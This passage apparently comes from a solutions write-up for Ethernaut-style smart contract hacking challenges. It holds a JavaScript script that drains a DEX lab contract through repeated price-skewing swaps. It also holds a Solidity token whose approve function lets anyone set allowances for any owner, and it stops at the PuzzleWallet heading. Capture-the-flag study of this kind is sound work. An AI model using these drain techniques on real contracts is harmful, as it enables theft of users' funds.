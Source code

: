```js
        const tokenValues= await knowTokenValues(balances);
        const toSwap = await getSwapValues(tokenValues);
        await contract.swap(tokenValues.mostExpensiveToken,tokenValues.cheapestToken,toSwap,{from:PLAYER});
        console.log(`swapped ${toSwap} ${tokenValues.mostExpensiveToken} for  ${tokenValues.cheapestToken}`);

        flag = balances.token1Balance*balances.token2Balance>0;
    }
    
    console.log("Hacked !")
}


module.exports = async  function() {
  
  contract = await contractABI.at("0x5b9777555BDC7bA0Dee12EBB6d0Fc1E6Dc83b20a"); 
  await drainFunds();
}
```

#### Solidity Contract for test and for the token3

Make sure to add a reasonable balance to the instance.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/IERC20.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract SwappableToken is ERC20 {

  constructor( string memory name, string memory symbol, uint256 initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    super._approve(owner, spender, amount);
  }
}

// transfer(instanceAddress,ValueYouWant)
```

## PuzzleWallet

**Challenge description**
